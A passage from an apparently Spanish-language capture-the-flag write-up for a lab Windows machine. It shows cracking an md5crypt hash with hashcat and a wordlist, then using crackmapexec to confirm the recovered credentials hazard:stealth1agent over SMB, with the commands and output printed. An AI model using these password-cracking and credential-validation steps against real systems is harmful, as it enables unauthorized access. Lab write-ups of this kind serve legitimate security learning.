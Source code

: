 Aprovechemos para hacer el mismo proceso pero ahora con **hashcat**:

```bash
❱ hashcat -m 500 -a 0 secret.hash /usr/share/wordlists/rockyou.txt -o cracked.txt
```

* `-m`: Tipo de hash (500 al ser md5crypt).
* `-a`: Ataque tipo diccionario (para pasarle despues el wordlist).
* `-o`: Cuando haga la crakeazhion, guardara el resultado en el archivo `cracked.txt`.

Ejecutamos yyyyy:

```bash
❱ cat cracked.txt 
$1$pdQG$o8nrSzsGXeaduXrjlvKc91:stealth1agent
```

Perfecto, el mismo resultado.

...

### Encontrando credenciales válidas contra *SMB* [⌖](#finding-valid-creds) {#finding-valid-creds}

Ahora que tenemos todas las contraseñas en texto plano y algunos usuarios, pues empecemos a probar y ver si en algún servicio son válidas.

**SMB**:

Usemos [crackmapexec](https://www.elladodelmal.com/2020/05/crackmapexec-una-navaja-suiza-para-el.html) para ir validándolas contra *samba*:

```bash
❱ crackmapexec smb 10.10.10.149 
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)  
```

* Obtenemos más info relevante, sistema operativo yyy dominio.

Jugando con los usuarios del archivo `config.txt` no logramos obtener nada, peeeero, si recordamos habíamos hablado que podría existir el usuario **hazard**, pueeeeees:

```bash
❱ crackmapexec smb 10.10.10.149 -u 'hazard' -p 'incorrecta' 
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)  
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\hazard:incorrecta STATUS_LOGON_FAILURE 
```

```bash
❱ crackmapexec smb 10.10.10.149 -u 'hazard' -p 'stealth1agent'
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)  
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent 
```

Lindo, las credenciales `hazard:stealth1agent` son válidas contra el servidor **samba** (: Veamos si tenemos recursos disponibles:
